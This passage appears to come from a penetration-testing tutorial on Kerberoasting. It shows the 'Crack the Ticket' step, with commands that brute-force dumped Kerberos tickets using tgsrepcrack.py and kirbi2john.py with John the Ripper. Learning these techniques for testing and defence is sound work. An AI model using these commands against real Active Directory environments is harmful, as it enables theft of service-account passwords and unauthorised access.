

4. Crack the Ticket
Here we have different possibilities
•
Use tgsrepcrack.py of Tim Medin(Very slow) Rename the file found:
 in something like “ticket.kirbi”
Now we can use
tgsrepcrack.py, from Kerberoast project of Tim Medin(GitHub - nidem/kerberoast) to brute force dumped Kerberos tickets
C:\> python tgsrepcrack.py example.dict ticket.kirbi
•
Convert a kirbi file and crack it with John The Ripper root@kali:/# /usr/share/john/kirbi2john.py [kirbiFile] > [outputFile]
root@kali:/# john --wordlist=[wordlist] [FileWithHash]